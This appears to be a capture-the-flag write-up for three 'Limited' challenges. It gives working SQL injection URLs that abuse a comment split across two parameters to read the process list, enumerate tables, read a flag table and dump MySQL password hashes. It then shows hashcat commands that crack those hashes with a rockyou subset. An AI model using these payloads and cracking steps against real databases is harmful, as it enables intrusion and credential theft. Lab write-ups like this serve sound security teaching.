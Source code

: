 # Limited 1

SQL Injection is not possible in the limit clause.

Use the price_op with a value like `>/*` and the limit clause with a value like `*/ 100 BLAH`.

The regex check on price_op is broken since it uses match instead of search (or match with ^$).

To get this flag, you can read from the INFO column of the INFORMATION_SCHEMA.PROCESSLIST table.

For local hosting:
http://localhost:40000/query?price=10.99&price_op=%3E/*&limit=*/100%20union%20select%20INFO,1,2,3%20from%20INFORMATION_SCHEMA.PROCESSLIST




# Limited 2

First figure out the name of the table that starts with Flag_.

For local hosting:
http://localhost:40000/query?price=10.99&price_op=%3E/*&limit=*/100%20union%20select%20table_name,1,2,3%20from%20INFORMATION_SCHEMA.tables

Then get the flag from that table:

http://localhost:40000/query?price=10.99&price_op=%3E/*&limit=*/100%20union%20select%20value,1,2,3%20from%20Flag_843423739



# Limited 3

Here are some resources on cracking hashed passwords in MySQL:

https://www.percona.com/blog/brute-force-mysql-password-from-a-hash/

(see footnote 19): https://hashcat.net/wiki/doku.php?id=example_hashes

The DB user that performs the query was granted select rights on the mysql.user table specifically for this reason.

This gets you all the hashed passwords in the special format described in the above resources:

```
http://localhost:40000/query?price=10.99&price_op=%3E/*&limit=*/100%20union%20SELECT%20User,%20CONCAT(%27$mysql%27,LEFT(authentication_string,6),%27*%27,INSERT(HEX(SUBSTR(authentication_string,8)),41,0,%27*%27))%20AS%20hash,%20plugin,4%20FROM%20mysql.user
```
The hashed password of the flag user looks like this:

```
$mysql$A$005*<some-hex-digits>*<some-hex-digits)
```

Put this into a file called hashes.txt.

You "could" crack using the big rockyou.txt file.

However, it would take over an hour since it has to hash each candidate word 5000 times.

Since we were given a hint that the password is 13 characters, we can make a subset of rockyou.txt like this.

```
awk 'length($0) == 13' rockyou.txt > rockyou13.txt
```

```
hashcat -m 7401 -a 0 -O ./hashes.txt rockyou13.txt
```

This should take less than 3 minutes.

As far as I know john the ripper cannot currently handle this format.

